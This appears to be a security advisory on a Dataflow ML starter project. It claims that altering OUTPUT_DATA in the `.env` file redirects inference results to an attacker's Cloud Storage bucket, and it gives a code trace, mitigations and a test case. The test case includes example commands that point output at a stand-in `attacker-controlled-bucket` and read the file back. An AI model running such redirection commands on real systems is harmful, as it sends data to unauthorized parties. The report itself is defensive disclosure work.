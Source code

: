 - **Vulnerability Name:** Output Data Redirection via Environment Variable Injection

- **Description:**
  An attacker can modify the `.env` file, specifically the `OUTPUT_DATA` environment variable, to redirect the output of the machine learning pipeline to a Google Cloud Storage (GCS) bucket under their control. This is possible because the application reads the output path directly from the `.env` file without any validation or sanitization.

  **Steps to trigger the vulnerability:**
  1.  Clone the project repository if the attacker is not already a collaborator.
  2.  Navigate to the project directory.
  3.  Edit the `.env` file.
  4.  Locate the line starting with `OUTPUT_DATA=`.
  5.  Change the value of `OUTPUT_DATA` to point to a GCS bucket controlled by the attacker, for example: `OUTPUT_DATA=gs://attacker-controlled-bucket/exfiltrated_data.txt`.
  6.  Run any of the `make run-df-*` commands (e.g., `make run-df-cpu`, `make run-df-gpu`, `make run-df-gpu-flex`) to execute the Dataflow pipeline.
  7.  The pipeline will now write the ML inference results to the attacker-specified GCS bucket instead of the intended destination.
  8.  The attacker can then access the `exfiltrated_data.txt` file in their GCS bucket to obtain the machine learning inference results.

- **Impact:**
  Data Exfiltration. An attacker can successfully exfiltrate potentially sensitive machine learning inference results by redirecting the pipeline's output to a storage location they control. This could lead to a breach of confidentiality and unauthorized access to the processed data.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:**
  None. The project directly uses the `OUTPUT_DATA` environment variable from the `.env` file without any validation or sanitization.

- **Missing Mitigations:**
  - **Input Validation and Sanitization:** Implement validation for the `OUTPUT_DATA` variable to ensure it conforms to expected patterns (e.g., whitelisted GCS bucket prefixes) and sanitize the input to prevent malicious paths.
  - **Principle of Least Privilege:** Ensure that the Dataflow job's service account has the minimum necessary permissions. Restrict write access to only the intended output GCS bucket and prevent access to other buckets.
  - **Configuration Management:** Consider using a more secure configuration management system instead of relying solely on `.env` files, especially for sensitive production deployments. Options include using Google Cloud Secret Manager or environment configuration services.
  - **Documentation:** Clearly document the security risks associated with modifying the `.env` file and advise users against using untrusted configurations.

- **Preconditions:**
  - The attacker needs to be able to modify the `.env` file. This could be achieved through various means, such as:
    -  Compromising the environment where the pipeline is run if the `.env` file is deployed with the application.
    -  If the attacker is a collaborator or has write access to the repository and can modify the `.env` file before deployment.
    -  In a development or testing environment where security practices might be less strict and the `.env` file is easily accessible or modifiable.

- **Source Code Analysis:**

  1. **`.env` File (Configuration Injection Point):**
     The `.env` file stores environment variables, including `OUTPUT_DATA`.

     ```
     OUTPUT_DATA="gs://temp-storage-for-end-to-end-tests/torch/result_gpu_xqhu.txt"
     ```

  2. **`Makefile` (Environment Variable Usage):**
     The `Makefile` sources the `.env` file and uses the `OUTPUT_DATA` variable when running the `run.py` script. For example, in the `run-df-cpu` target (simplified for clarity):

     ```makefile
     run-df-cpu: ...
         python my_project/run.py \
             --input $(INPUT_DATA) \
             --output $(OUTPUT_DATA) \
             ...
     ```
     The `$(OUTPUT_DATA)` in the `Makefile` is directly substituted with the value from the `.env` file.

  3. **`my_project/run.py` (Command Line Argument Parsing and SinkConfig):**
     The `run.py` script uses `argparse` to parse command-line arguments, including `--output`.

     ```python
     def parse_known_args(argv):
         parser = argparse.ArgumentParser()
         parser.add_argument("--output", dest="output", required=True, help="Path where to save output predictions.")
         ...
         return parser.parse_known_args(argv)

     def run(argv=None, save_main_session=True, test_pipeline=None) -> PipelineResult:
         known_args, pipeline_args = parse_known_args(argv)
         ...
         sink_config = SinkConfig(output=known_args.output) # SinkConfig is created using the parsed output path
         ...
         build_pipeline(pipeline, source_config=source_config, sink_config=sink_config, model_config=model_config)
         ...
     ```
     The `--output` argument's value, which originates from the `OUTPUT_DATA` environment variable via the `Makefile`, is used to create a `SinkConfig` object.

  4. **`my_project/config.py` (`SinkConfig` Definition):**
     The `SinkConfig` class simply stores the `output` path without any validation.

     ```python
     class SinkConfig(BaseModel):
         output: str = Field(..., description="the output path to save results as a text file")
     ```

  5. **`my_project/pipeline.py` (`build_pipeline` and Output Sink):**
     The `build_pipeline` function receives the `sink_config` and uses `sink_config.output` directly in `beam.io.WriteToText` or `beam.io.fileio.WriteToFiles`.

     ```python
     def build_pipeline(pipeline, source_config: SourceConfig, sink_config: SinkConfig, model_config: ModelConfig) -> None:
         ...
         predictions = ( ... ) # Pipeline steps leading to predictions

         if source_config.streaming:
             (
                 predictions
                 | "WriteOutputToGCS"
                 >> beam.io.fileio.WriteToFiles(sink_config.output, shards=0) # sink_config.output used directly as output path
             )
         else:
             # save the predictions to a text file
             predictions | "WriteOutputToGCS" >> beam.io.WriteToText( # sink_config.output used directly as output path
                 sink_config.output, shard_name_template="", append_trailing_newlines=True
             )
     ```
     As shown in the code flow, the `OUTPUT_DATA` environment variable, after being processed through `Makefile`, `run.py`, and `config.py`, is directly used as the output path in `pipeline.py` without any validation. This allows an attacker to control the output destination by modifying the `.env` file.

- **Security Test Case:**

  **Pre-requisites:**
  - Access to the project codebase.
  - Google Cloud SDK (`gcloud`) configured and authenticated.
  - `make` installed.
  - An attacker-controlled Google Cloud Storage bucket (e.g., `gs://attacker-controlled-bucket`).

  **Steps:**
  1. **Clone the Repository:**
     If the attacker does not have the code, clone the repository to their local machine:
     ```bash
     git clone https://github.com/google/dataflow-ml-starter.git
     cd dataflow-ml-starter
     ```

  2. **Modify `.env` File:**
     Copy the template `.env` file and modify the `OUTPUT_DATA` variable to point to the attacker's GCS bucket:
     ```bash
     cp .env.template .env
     echo "OUTPUT_DATA=gs://attacker-controlled-bucket/exfiltrated_data.txt" >> .env
     ```
     *(Alternatively, use an editor to modify the `.env` file directly)*

  3. **Run the Dataflow Pipeline:**
     Execute the Dataflow pipeline using `make run-df-cpu`. This will trigger a Dataflow job that processes the sample data and writes the output.
     ```bash
     make run-df-cpu
     ```

  4. **Verify Data Exfiltration:**
     After the Dataflow job completes successfully, check the attacker-controlled GCS bucket (`gs://attacker-controlled-bucket`). The file `exfiltrated_data.txt` should now exist and contain the ML inference results.

     You can verify this using `gsutil`:
     ```bash
     gsutil ls gs://attacker-controlled-bucket/exfiltrated_data.txt
     gsutil cat gs://attacker-controlled-bucket/exfiltrated_data.txt
     ```
     If the file exists and contains the prediction results, the vulnerability is confirmed.

This test case demonstrates that by modifying the `OUTPUT_DATA` environment variable in the `.env` file, an attacker can successfully redirect the output of the Dataflow ML pipeline to an attacker-controlled GCS bucket, achieving data exfiltration.